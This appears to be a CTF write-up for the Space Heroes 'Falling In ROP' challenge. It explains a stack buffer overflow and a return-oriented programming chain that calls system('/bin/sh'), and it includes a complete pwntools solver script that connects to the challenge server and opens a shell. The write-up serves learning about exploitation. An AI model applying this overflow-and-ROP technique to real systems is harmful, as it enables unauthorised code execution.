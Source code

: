 
# Falling In ROP

## Overview

Points: 294

Category: Pwn

## Introduction
The "Falling in ROP" challenge from the Space Heroes CTF called for participants to exploit a binary to spawn a shell, thereby allowing them to capture a flag stored on the
server. The task necessitated the use of a Return-Oriented Programming (ROP) chain to bypass modern security mechanisms.

## Tools and Technologies Used
* pwntools: A Python-based CTF framework for crafting exploits.
* ROPgadget: This tool lets us search binaries for useful ROP gadgets.
* ELF: The binary format analyzed for vulnerabilities and exploitation.

## The Binary and Its Security
The provided binary "falling.bin" was scrutinized with the *checksec* feature of *pwntools*, revealing it was susceptible to a buffer overflow attack—a conclusion drawn from the
requirement to overwrite the return address with a crafted ROP chain.  
**Arch:**     amd64-64-little  
**RELRO:**    Partial RELRO  
**Stack:**    No canary found  
**NX:**       NX enabled  
**PIE:**      No PIE (0x400000)  

### Exploit Development
```.py
chal = context.binary = ELF('/Users/brussel/Downloads/falling.bin', checksec=True)
```
Here, *pwntools* is configured with the target binary, enabling analysis and preparation for the exploit. The *checksec* is invoked to examine the binary's defenses.  

### Establishing a Remote Connection
```.py
fall_rop = remote("spaceheroes-falling-in-rop.chals.io", 443, ssl=True, sni="spaceheroes-falling-in-rop.chals.io")
```
Initiates a secure SSL connection to the remote challenge server, essential for sending our exploit.

### Calculating the Offset
![](Images/fallingImage1.png)
```.py
offset = 88
```
Determines the number of bytes to fill the buffer before the return address on the stack, which is crucial for the overflow attack.  

### Building the ROP Chain
***ROP Gadget***
```
pop rdi
ret
```
![](Images/fallingimage5.png)  
***"/bin/sh" in binary data***  
![](Images/fallingimage3.png)  
```.py
rop = ROP(chal)
pop_rdi = rop.find_gadget(['pop rdi'])[0]
ret = rop.find_gadget(['ret'])[0]
binsh = 0x402135
```

1. ROP(chal) initiates the ROP chain builder for the given binary.
2. pop_rdi finds a gadget that will set up the rdi register, which is the first argument for the system call.
3. ret finds a gadget that can be used for stack alignment, ensuring our chain executes smoothly.
4. binsh is the hardcoded address of the string /bin/sh in the binary, which is necessary to spawn a shell.
  
### Receiving the Initial Prompt
![](Images/fallingimage2.png)
```.py
fall_rop.recvuntil('Tell me who you are: ')
```
The script waits for the challenge prompt before sending the exploit payload, ensuring
that the exploit is synchronized with the program's state.  

### Crafting and Sending the Payload  
***System in binary***  
![](Images/fallingimage4.png)  
```.py
payload = flat([b'A' * offset, ret, pop_rdi, binsh, chal.plt['system']])
fall_rop.send(payload)
```

### Constructs the payload using flat to concatenate:
1. A sequence of 'A's to fill the buffer up to the return address.
2. The ret gadget for stack alignment.
3. The pop rdi and binsh to set up our argument for the system call.
4. The address of system from the PLT to execute the call.

### Engaging Interactive Mode
fall_rop.interactive()
After sending the payload, this line provides interactive access to the shell spawned by
the exploit, allowing the participant to manually execute commands on the target
system.  

### Capturing the Flag
By executing the script, the participant successfully overflowed the buffer and executed
the ROP chain, resulting in a shell. Through this shell, the flag was retrieved with the
command cat flag.txt, revealing the contents:  
  
![](Images/fallingimage6.png)  
  
***shctf{ha3_mu$t_n3v3r_w1n_6184}***

## Solver Script  
```.py
from pwn import *
chal = context.binary = ELF('/Users/brussel/Downloads/falling.bin', checksec=True)

fall_rop = remote("spaceheroes-falling-in-rop.chals.io", 443, ssl=True, sni="spaceheroes-falling-in-rop.chals.io")

offset = 88

rop = ROP(chal)
pop_rdi = rop.find_gadget(['pop rdi'])[0]
ret = rop.find_gadget(['ret'])[0]
binsh = 0x402135

fall_rop.recvuntil('Tell me who you are: ')
payload = flat([b'A' * offset, ret, pop_rdi, binsh, chal.plt['system']])
fall_rop.send(payload)

fall_rop.interactive()
```
